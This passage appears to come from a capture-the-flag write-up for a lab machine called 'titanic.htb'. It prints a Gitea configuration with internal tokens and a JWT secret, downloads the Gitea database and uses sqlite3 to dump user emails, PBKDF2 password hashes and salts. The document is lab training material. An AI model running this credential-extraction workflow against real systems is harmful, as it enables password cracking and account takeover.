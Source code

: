 ```bash
[security]
INSTALL_LOCK = true
SECRET_KEY = 
REVERSE_PROXY_LIMIT = 1
REVERSE_PROXY_TRUSTED_PROXIES = *
INTERNAL_TOKEN = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYmYiOjE3MjI1OTUzMzR9.X4rYDGhkWTZKFfnjgES5r2rFRpu_GXTdQ65456XC0X8
PASSWORD_HASH_ALGO = pbkdf2

[..snip..]

[lfs]
PATH = /data/git/lfs

[..snip..]

[oauth2]
JWT_SECRET = FIAOKLQX4SBzvZ9eZnHYLTCiVGoBtkE4y5B7vMjzz3g
```
{% endcode %}

We have a path to gitea.db (`/data/gitea/gitea.db`). Copying the URL into browser to download it.

<figure><img src="../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Read the file with `sqlite3` tool.

```bash
sqlite3 gitea.db
```

Read the db tables

```bash
> .tables

[..snip..]
user
[..snip..]
```

Get informations from user table with a simple SQL query

{% code overflow="wrap" %}
```bash
> SELECT name, full_name, email, passwd, passwd_hash_algo, login_name, salt FROM user;

administrator||root@titanic.htb|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50||2d149e5fbd1b20cf31db3e3c6a28fc9b

developer||developer@titanic.htb|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50||8bf3e3452b78544f8bee9400d6936d34
```
{% endcode %}
